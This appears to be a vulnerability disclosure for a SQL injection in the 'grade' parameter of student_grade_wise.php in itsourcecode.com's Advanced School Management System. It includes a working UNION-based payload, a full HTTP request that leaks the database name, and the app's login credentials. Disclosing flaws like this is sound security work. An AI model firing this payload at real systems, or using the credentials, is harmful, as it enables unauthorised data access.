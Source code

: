 # Advanced School Management System v1.0 by itsourcecode.com has SQL injection

**Login account:** 

​		username：suarez081119@gmail.com

​		password：12345

**vendors:** https://itsourcecode.com/free-projects/php-project/advanced-school-management-system-in-php-with-source-code/

**Vulnerability url:** /school/view/student_grade_wise.php?grade=

**Vulnerability location:** /school/view/student_grade_wise.php

**[+] Payload:** /school/view/student_grade_wise.php?grade=11'%20union%20select%20database()%2c2%2c3%3b%23

​	Leak place : grade

**Current database name:** std_db, length is 6

**Request package：**select all students whose grade is specified

```
GET /school/view/student_grade_wise.php?grade=11'%20union%20select%20database()%2c2%2c3%3b%23 HTTP/1.1
Host: 10.12.171.4
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36
Accept: */*
Referer: http://10.12.171.4/school/view/all_student.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=cp26rmntdlbhle8qiofns95sv7
Connection: close
```

**SQL injection result：**line 6 database name is displayed.

![image-20220624163833913](https://github.com/Renrao/bug_report/blob/master/blob/main/vendors/itsourcecode.com/advanced-school-management-system/sql_injection.assets/image-20220624163833913.png)